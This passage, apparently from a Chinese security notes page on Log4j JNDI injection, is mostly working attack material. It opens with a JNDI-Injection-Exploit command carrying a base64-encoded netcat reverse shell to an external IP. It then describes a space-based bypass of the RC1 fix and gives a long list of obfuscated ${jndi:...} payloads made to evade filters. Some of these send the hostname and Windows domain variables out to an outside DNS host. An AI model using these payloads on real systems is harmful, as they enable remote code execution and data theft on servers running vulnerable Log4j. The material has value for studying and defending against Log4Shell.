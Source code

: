 ```
nc反弹shell

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,bmMgNDcuOTMuMjQ4LjIyMSAyMzMzIC1lIC9iaW4vc2g=}|{base64,-d}|{bash,-i}" -A "47.93.248.221"
```

# RC1修复绕过

在修复后,`PatternLayout.toSerializable`方法发生了变化，主要还是因为其中的`formatters`属性的变化导致了`${}`不会被处理

不过存在绕过,只要在payload中加一个空格即可

```
${jndi:ldap://127.0.0.1:1389/ ExportObject}
```

不过这个方法需要在开启lookup配置的时候才能被绕过

# 一些绕过的payload

```
${jndi:ldap://127.0.0.1:1389/ badClassName} ${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::- i}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${::-j}ndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${jndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk} 

${${lower:jndi}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${lower:${lower:jndi}}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sp loit} 

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2h vztn.l4j.zsec.uk/sploit} 

${${upper:jndi}:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${upper:j}${upper:n}${lower:d}i:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sp loit} 

${${upper:j}${upper:n}${upper:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2h vztn.l4j.zsec.uk/sploit} 

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::- p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk} 

${${upper::-j}${upper::-n}${::-d}${upper::-i}:${upper::-l}${upper::-d}${upper::- a}${upper::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk} 

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::- p}://${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.nsvi5sh112ksf1bp1ff2hvztn.l 4j.zsec.uk
```





参考链接

https://xz.aliyun.com/t/10649#toc-2

https://www.anquanke.com/post/id/262668#h3-5

https://tttang.com/archive/1378/

https://www.cnpanda.net/sec/1114.html